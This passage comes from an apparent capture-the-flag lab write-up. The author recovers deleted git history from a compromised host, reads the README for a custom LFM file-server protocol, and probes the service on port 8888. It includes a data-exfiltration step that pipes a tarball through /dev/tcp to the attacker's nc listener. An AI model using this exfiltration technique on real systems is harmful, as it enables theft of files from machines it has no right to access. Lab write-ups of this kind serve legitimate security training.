 ```bash
 delete mode 100644 thread.h
```
Using git log, we can see past commits. Seems like the files were deleted… Luckily, we can easily recover them. We want to recover the lfmserver, as well as the source.

We can transfer the whole git repository to our machine, by archiving it and then sending it to our machine.

```bash
root@8d8f7bbd30e4:/usr/src# tar -czf lfm.tar.gz lfm/
root@8d8f7bbd30e4:/usr/src# cat lfm.tar.gz > /dev/tcp/10.10.14.5/1234

root@silence:~# nc -lvnp 1234 > lfm.tar.gz
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.173.
Ncat: Connection from 10.10.10.173:39164.
root@silence:~# tar -xzf lfm.tar.gz
```
```bash
root@silence:~/lfm# git checkout 1bbc518518cdde0126103cd4c6e7e6dfcdd36d3e
root@silence:~/lfm# cat README
This is an implementation of the Lightweight File Manager LFM Protocol.
It's a pre-fork and pre-thread server, which supports re-forking and re-threading
when the number of child processes of threads goes below a threshold.

It's similar to HTTP, and supports the following methods:

GET /object LFM     [\r\n]
User=user           [\r\n]
Password=password   [\r\n]
                    [\r\n]

CHECK /object LFM   [\r\n]
User=user           [\r\n]
Password=password   [\r\n]
                    [\r\n]
md5_of_the_file     [\r\n]
                    [\r\n]


PUT /object LFM     [\r\n]
User=user           [\r\n]
Password=password   [\r\n]
                    [\r\n]
bytes_of_the_file


Communication is based on TCP.
Default port is 5000.
```
Going through the repository, we can find a README, that explains how the protocol works. If we remember back to our nmap scan, there was port 8888 open. We can check if the protocol is running on that port by quickly connecting to it.
```bash
root@silence:~# nc 10.10.10.173 8888
A
LFM 400 BAD REQUEST
```
Further checking out the repository, we find the used libc version, which is [libc6 2.28-0ubuntu1](https://launchpad.net/ubuntu/cosmic/amd64/libc6/2.28-0ubuntu1).
```bash
root@silence:~/lfm# git checkout a900ccf7ae75b95db5f2d134d80e359a795e0cc6
root@silence:~/lfm# git show
```